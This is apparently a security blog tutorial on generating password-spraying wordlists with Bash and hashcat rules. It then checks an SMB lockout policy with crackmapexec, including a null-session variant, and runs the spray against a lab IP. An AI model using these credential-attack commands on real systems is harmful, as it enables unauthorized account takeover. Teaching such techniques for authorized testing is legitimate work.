 # Using Hashcat and a bit of Bash to generate password lists


Let's use hashcat to generate a custom word-list we can make use of with password spraying attacks. Users typically have passwords that have a set pattern, such as if a company has a policy of resetting passwords monthly it is not surpring to find that users have their password contain the current Month of the year. Prehaps a companies password policy is longer you could then expect users to use seasons as part of their password.

Lets start with quickly adding all the months into a "candidate" file we can do this with a quick python one-liner. 
```bash
python -c "import calendar;[print(calendar.month_name[i]) for i in range(1,13)]" > candidate.passwords
```
Lets go ahead and add some more common passwords

`vim candidate.passwords`
{{< admonition type=example title="Our wordlist" open=true >}}
January

February

March

April

May

June

July

August

September

October

November

December

Password

P@ssw0rd

Secret

123456

123456789

qwerty

111111

12345678

abc123

1234567

password1

12345

iloveyou

monkey

dragon
{{< /admonition >}}

At this point you'll want to add that extra spice to this list by doing some OSINT on your target. Adding things such as the company name, or even the name of the technology/tool you are trying to break into. Additional using a tool like [CeWL](https://github.com/digininja/CeWL/) is great for pulling lots of data from a website and generating an even bigger wordlist.

Lets add even more entropy to our new password list by adding the year to the end of each candidate password and then an ! to the end of each potential passwords.

## Add the year to end of each password
```bash
for i in $(cat candidate.passwords); do echo $i; echo ${i}2020; done >  tmp; cp tmp candidate.passwords 
```
## Add an ! to end of each password
```bash
for i in $(cat candidate.passwords); do echo $i; echo ${i}\!; done > tmp; cp tmp candidate.passwords 
```
 Finally to really add some randomness to our custom list we can use hashcat and some rule files to generate thousands of variants of our candidate passwords. To do so we use the `--stdout` flag in hashcat to print the output to, surprisingly, standout. One of the great features of hashcat is the ability to use a rule file to generate variance. This is done by giving setting the `-r` flag and a path to your rule file.

 You can find lots of rule files in the hashcat github [repo](https://github.com/hashcat/hashcat/tree/master/rules) but for this example we will just use the [best64.rule](https://github.com/hashcat/hashcat/blob/master/rules/best64.rule)

 ## Lets quickly download the rules with `wget`

 ```bash
wget https://raw.githubusercontent.com/hashcat/hashcat/master/rules/best64.rule
 ```

Now lets apply our rules with hashcat. Notice `--force` flag to ensure hashcat runs even with a CPU.
```bash
hashcat --force --stdout candidate.passwords -r best64.rule > password.list
```
We should now have thousands of words in this password list now. We can can go futher and even change additional rule files to get even more variants on what started out as simply the months of the year and some common passwords.

We now have thousands of passwords which is too many for a password spraying attack. We can use bash to cut down on some of the fat.

## Fine tuning the list
### Remove duplicate passwords
```bash
cat password.list | sort -u > tmp; cp tmp password.list
```

### Keep passwords that are over a certain length
```bash
cat password.list | awk 'length($0) > 7' > tmp; cp tmp password.list
```

Now we have prepared our password list before using it we should check the password policy. Just incase we block a user out of their account due to too many failed authentication attempts. If we were attack a windows machine we can use [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) to check the password policy for a SMB share.

```bash
crackmapexec smb 192.168.1.25 --pass-pol
```

If that does not work you can try a null authentication, this tends to work on windows servers that have been upgraded from 2003. This is due for new domain installations not allowing by default null authentication.

```bash
crackmapexec smb 192.168.1.25 --pass-pol -u '' -p ''
```
```bash
CMB 192.168.1.25:445 DOMAIN    [*] Windows 10.0 Build 14393 (name:DOMAIN) (domain:FOO)
CMB 192.168.1.25:445 DOMAIN    [+] Dumping password policy
CMB 192.168.1.25:445 DOMAIN    Minimum password length: 7
CMB 192.168.1.25:445 DOMAIN    Password history length: 24
CMB 192.168.1.25:445 DOMAIN    Maximum password age: 42 days 23 hours 52 minutes
CMB 192.168.1.25:445 DOMAIN    Minimum password age: 23 hours 52 minutes
CMB 192.168.1.25:445 DOMAIN    Account lockout threshold: 0
CMB 192.168.1.25:445 DOMAIN    Account lockout duration: None
```

Things to look out for in the output would be the minimum password length, we could use this to tune our password list and the information on account lockouts. Which in the above example is set to 0 hence we are safe to spray our passwords without the fear of locking out users.

You are now ready to begin your attack. In the case of windows SMB you could use either:

#### crackmapexec
```bash
crackmapexec smb 192.168.1.25 -u user.list -p password.list
```
or metasploit console has a nice module called `smb_login`.


There is many ways you could expand this further to create more precise wordlists against your target. Doing good recon on a target can yeild some great potential passwords, such as including user names, birthdays. Obviously there is infinite possibilites but these techniques can be used to quickly generate at least some of those infinite possibilites.



## References
1. [ippsec - forest](https://www.youtube.com/watch?v=H9FcE_FMZio)

